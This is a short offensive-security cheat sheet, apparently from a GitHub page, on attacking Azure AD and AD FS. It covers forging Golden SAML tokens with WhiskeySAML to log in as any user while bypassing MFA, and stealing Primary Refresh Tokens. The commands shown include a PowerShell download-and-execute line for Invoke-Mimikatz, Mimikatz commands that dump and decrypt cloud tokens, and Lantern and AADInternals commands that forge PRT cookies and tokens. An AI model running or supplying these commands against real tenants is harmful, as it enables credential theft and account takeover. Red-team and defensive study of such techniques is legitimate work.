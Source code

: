 _WhiskeySAML:_

*
  1. Remotely extract AD FS configuration settings
*
  1. Forge and sign Golden SAML tokens
*
  1. Pass the Golden SAML token to the Microsoft Azure portal
*
  1. Log into the Azure portal as any user while bypassing Azure MFA configurations

```
python3 shocknawe.py --target-user $user --domain $domain --adfs-host=$adfs_server --dc-ip $ip
```

#### PRT Manipulation

**PassThePRT**

_check AzureAdJoined Status and download Mimikatz:_

```
dsregcmd.exe /status
iex (New-Object Net.Webclient).downloadstring(“https://server/Invoke-Mimikatz.ps1”)
```

_Looking for **prt** and **KeyValue**:_

```
mimikatz # privilege::debug
mimikatz # sekurlsa::cloudap
```

_use **APKD function** to decode **KeyValue** and save **"Context"** and **"DerivedKey"** value:_

```
mimikatz # token::elevate
mimikatz # dpapi::cloudapkd /keyvalue:$KeyValue /unprotect
```

```
mimikatz # dpapi::cloudapkd /context:$context /derivedkey:$DerivedKey /Prt:$prt

---SNIP---
Signed JWT : eyJ...
```

_Forge PRT-Cookie using_ [_lantern_](https://github.com/ConstantinT/Lantern)_:_

```
Lantern.exe cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
Lantern.exe cookie --sessionkey <SessionKey> --prt <PRT from Mimikatz>
```

_Generate JWT_

```
PS AADInternals> $PRT_OF_USER = '...'
PS AADInternals> while($PRT_OF_USER.Length % 4) {$PRT_OF_USER += "="}
PS AADInternals> $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_OF_USER))
PS AADInternals> $ClearKey = "XXYYZZ..."
PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
```
